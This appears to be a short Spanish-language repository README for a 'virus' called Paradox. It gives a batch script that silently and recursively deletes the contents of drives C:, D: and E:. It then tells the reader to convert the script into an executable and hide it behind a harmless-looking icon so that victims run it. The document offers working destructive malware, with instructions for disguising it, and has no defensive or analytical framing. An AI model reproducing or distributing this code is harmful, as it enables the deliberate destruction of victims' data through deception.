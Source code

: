 # Paradox

Es un virus destructivo capas de formatear la PC de la víctima.

## USO

Crearemos un archivo de texto y copiaremos el siguiente código.

```bat
@echo off   
rd/s/q D:
rd/s/q C:
rd/s/q E:
```

Luego lo guardamos con la siguiente extension **archivo.bat**

Ahora usaremos **bat to exe** para convertir a un archivo ejecutable y ocultar el virus con un icono.

[Bat to exe](https://bat-to-exe-converter-x64.softonic.com/#:~:text=BAT%20to%20EXE%20Converter%20es,el%20producto%20final%20est%C3%A9%20protegido.)